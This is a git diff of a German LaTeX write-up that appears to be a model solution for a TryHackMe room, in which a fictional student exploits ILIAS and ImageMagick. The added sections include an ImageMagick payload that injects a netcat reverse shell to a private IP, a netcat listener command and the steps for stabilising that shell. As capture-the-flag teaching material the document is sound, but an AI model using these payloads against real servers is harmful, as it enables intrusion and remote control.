

Updated Storyline section shell stabilisieren

diff --git a/src/main.tex b/src/main.tex
@@ -62,7 +62,8 @@
     stringstyle=\color{mauve},
     breaklines=true,
     breakatwhitespace=true,
-    tabsize=3
+    tabsize=2
+    numbers=left
 }
 
 
@@ -171,9 +172,13 @@
 
         \vspace{0.5cm}
         \hline
-        \vspace{3cm}
+        \vspace{5cm}
         \noindent
         \keywords{Ilias, Fehlkonfiguration, ImageMagick, Privilage Escalation, XSS}
+
+        \vspace{3cm}
+        \noindent
+        Für Zugang zum Git-Repository oder bei Fragen und Anregungen melden Sie sich bitte untern den angegebene Mail-Adressen der Autorenschaft.
     \end{abstract}
 
 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
@@ -181,11 +186,11 @@
 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
 
 
-    \shorttoc{Inhaltsübersicht}{1}
-    \pagebreak
-    \tableofcontents
-    \vfill
-    \pagebreak
+%    \shorttoc{Inhaltsübersicht}{1}
+%    \pagebreak
+     \tableofcontents
+     \vfill
+     \pagebreak
 
 
 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
@@ -381,7 +386,7 @@
     \fill
     \newpage
 
-    \section{Storyline}
+    \section{Storyline und Musterlösung}
     \label{sec:storyline}
     Hier geht es zum \href{https://tryhackme.com/jr/t1mth3h4ck3rb0y}{\textbf{TryHackMe Raum}}.\vspace{0.5cm}
     \\
@@ -414,18 +419,16 @@
 
 
 
-    %Bilder vom TryHackMe Raum einfügen
-
     \subsection{Virtuelle Maschine 1}
     \label{subsec:vm1}
 
     \subsection{Virtuelle Maschine 2}
     \label{subsec:vm2}
-    TimDerHackerboy in sicher erfolgreich durch die \ac{vm}1 gekämpft und seine Note geändert.
-    Seine Spuren hat er erfolgreich verwischt und sogar Credentials für eine neue ILIAS Version gefunden, die durch Administratoren der Hochschule gerade aufgesetzt wird.
+    Nachdem TimDerHackerboy sicher erfolgreich durch die \ac{vm}1 gekämpft hat und sogar Credentials für neue ILIAS Version 5.2.3 in die Finger bekam, wird es Zeit für eine neue Aufgabe.
+    Die neue ILIAS Version wird durch Administratoren der Hochschule gerade neu aufgesetzt und ist noch nicht für die Studenten zugänglich.
     Die Verantwortlichen der Hochschule, zu denen auch der Professor SuperSicherAndi zählt, entschieden sich so die bekannte XSS Schachstelle aus Version 5.2.3 zu beheben.
-    Tim wäre kein Hackerboy würde er sich nicht direkt an die Arbeit machen und den Administratoren zeigen, dass sie ihre Arbeit nicht richtig machen.
-    So könnte er Professor SuperSicherAndi beweisen, dass er die eins auf jeden Fall verdient hat, sollte dieser ihm trotz aller Vorsichtsmaßnahmen auf die Schliche kommen.
+    Doch Tims Nachname wäre nicht Hackerboy, würde er sich nicht direkt an die Arbeit machen und den Administratoren zeigen, dass sie ihre Arbeit nicht richtig machen.
+    So könnte er Professor SuperSicherAndi sicher überzeugen, dass er die eins auf jeden Fall verdient hat, sollte dieser ihm trotz aller Vorsichtsmaßnahmen auf die Schliche kommen.
 
     \subsubsection{ImageMagick Schwachstelle finden und Payload erstellen}
     \label{subsubsec:imageMagickFinden}
@@ -463,23 +466,59 @@
     \\
     Dieser Exlpoit zeigt nach dem Ausführen eine Liste aller Dateien und Verzeichnisse im aktuellen Verzeichnis als Profilbild an.
     Das ist Tim jedoch nicht genug, er möchte eine Reverse Shell.
-    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc 192.168.100.113 4444 –e /bin/bash}.
+    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc Ziel-IP Port –e /bin/bash}.
     Es gilt abschließend den in~\ref{lst:imageMagickExploit} beschriebene Exploit um die Netcat Reverse Shell ergänzen.
-    Das der fertige Exploit ausgeführt wird ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
+    Das der Exploit ausgeführt wird, ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
     \vspace{0.4cm}
     \begin{lstlisting}[label={lst:imageMagickExploitFinal}]
-        #Als .txt bearbeiten un in akzeptiertem Dateiformat speichern
+        #Als .txt bearbeiten und in einem akzeptiertem Dateiformat speichern
+        #Lokale IP und Zielport tauschen
         push graphic-context
         viewbox 0 0 640 480
-        fill 'url(https://example.com/image.jpg"|nc 10.39.0.127 4444 "-e/bin/bash '
+        fill 'url(https://example.com/image.jpg"|nc 10.101.0.137 4444 "-e/bin/bash '
         pop graphic-context
     \end{lstlisting}
     \vspace{0.3cm}
 
-    \subsubsection{Verbindung mittels Reverse Shell herstellen}
+    \subsubsection{Verbindung mittels Reverse Shell herstellen und stabilisieren}
     \label{subsubsec:verbindunHerstellen}
+    Im nächsten Schritt gilt es mittels dem in~\ref{subsubsec:imageMagickFinden} erstellten Exploit eine Verbindung zum Server herzustellen.
+    Dazu muss Tim einen Netcat Listener erstellen, der den durch den Exploit angestoßenen Verbindungsversuch entgegennimmt.
+    Das kann mittels des nc Befehls wie folgt erreicht werden: \textit{nc -lvnp zielIP zielport}.
+    Wird nun der Exploit als Profilbild gespeichert,
+    \begin{figure}[H]
+        \centering
+        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/VerbindungDa}
+        \caption{Der Exploit wird als Profilbild gespeichert und ein Netcat Lister nimmt den Verbindungsversuch des Servers auf Port 444 entgegen.}
+        \label{fig:exploitHochladen}
+    \end{figure}
+    \noindent
+    Nach, dem die Verbindung erfolgreich etabliert ist, kommt schon das nächste Problem auf Tim zu.
+    Die Bash Shell ist zu instabil um damit fortzufahren.
+    Um die Shell zu stabilisieren, beschreibt ~\textcite{shellStabilisieren} folgendes Vorgehen:
+
+    \begin{enumerate}[leftmargin=2.5cm]
+        \item[1] \textit{python -c 'import pty; pty.spawn("/bin/bash")'}  in der Konsole eingeben.
+        \item[2] \textit{Strg+z}  drücken, um die Shell als Hintergrundprozess zu betreiben und wieder zur lokalen Maschine zu gelangen.
+        \item[3] \textit{stty raw -echo;fg}  in der Konsole eingeben, um die Einstellung für die Kommandozeile festzulegen und die Shell nicht mehr als Hintergrundprozess zu betreiben.
+        \item[4] \textit{export TERM=xterm}  in der Konsole eingeben, um den Terminalemulator auf xterm zu setzen.
+    \end{enumerate}
+
+    \begin{figure}[H]
+        \centering
+        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/shellStabilisierenGanz}
+        \caption{Stabile Bash Shell nach Durführung der oben genannten Schritte}
+        \label{fig:shellStabilisiert}
+    \end{figure}
+    \noindent
 
 
+
+
+
+
+    \subsubsection{Privilege Escalation}
+    \label{subsubsec:privilegeEscalation}
 
 
 
